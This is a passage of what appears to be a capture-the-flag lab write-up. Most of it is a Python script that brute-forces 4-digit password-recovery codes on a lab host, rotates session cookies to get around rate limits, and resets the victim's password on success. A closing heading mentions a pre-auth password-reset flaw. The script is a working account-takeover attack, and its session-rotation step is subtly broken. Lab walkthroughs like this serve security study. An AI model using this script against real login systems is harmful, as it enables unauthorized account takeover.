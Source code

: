         headers = {
            "User-Agent": "Mozilla/5.0 (iPhone14,3; U; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Mobile/19A346 Safari/602.1",
            "Cookie": "PHPSESSID=mrerfjsol4t2ags5ihvvb632ea"
        }
        url = "http://10.10.12.231:1337/reset_password.php"
        logout = "http://10.10.12.231:1337/logout.php"
        root = "http://10.10.12.231:1337/"
        
        parms = dict()
        ter = 0
        phpsessid = ""
        
        print("[+] Starting attack!")
        sleep(3)
        print("[+] This might take around 5 minutes to finish!")
        
        try:
                while True:
                        parms["recovery_code"] = f"{random.randint(0, 9999):04}" # random number from 0 - 9999 with 4 d
                        parms["s"] = 164 # not important it only efects the frontend
                        res = requests.post(url, data=parms, allow_redirects=True, verify=False, headers=headers)
        
                        if ter == 8: # follow number of trails
                                out = requests.get(logout,headers=headers) # log u out 
                                mainp = requests.get(root) # gets another phpssid (token)
        
                                cookies = out.cookies # extract the sessionid 
                                phpsessid = cookies.get('PHPSESSID')
                                headers["cookies"]=f"PHPSESSID={phpsessid}" #update the headers with new session
        
                                reset = requests.post(url, data={"email":"tester@hammer.thm"}, allow_redirects=True, verify=False, headers=headers) # sends the email to change the password for
                                ter = 0 # reset ter so we get a new session after 8 trails
                        else:
                                ter += 1
                                if(len(res.text) == 2292): # this is the length of the page when u get the recovery code correctly (got by testing)
                                        print(len(res.text)) # for debug info
                                        print(phpsessid) 
        
                                        reset_data = { # here we will change the password to somthing new 
                                        "new_password": "D37djkamd!",
                                        "confirm_password": "D37djkamd!"
                                        }
                                        reset2 = requests.post(url, data=reset_data, allow_redirects=True, verify=False, headers=headers)
        
                                        print("[+] Password has been changed to:D37djkamd!")
                                        break 
        except Exception as e:
                print("[+] Attck stopped")
      ```

## Arbitrary password reset via skipOldPwdCheck (pre-auth)
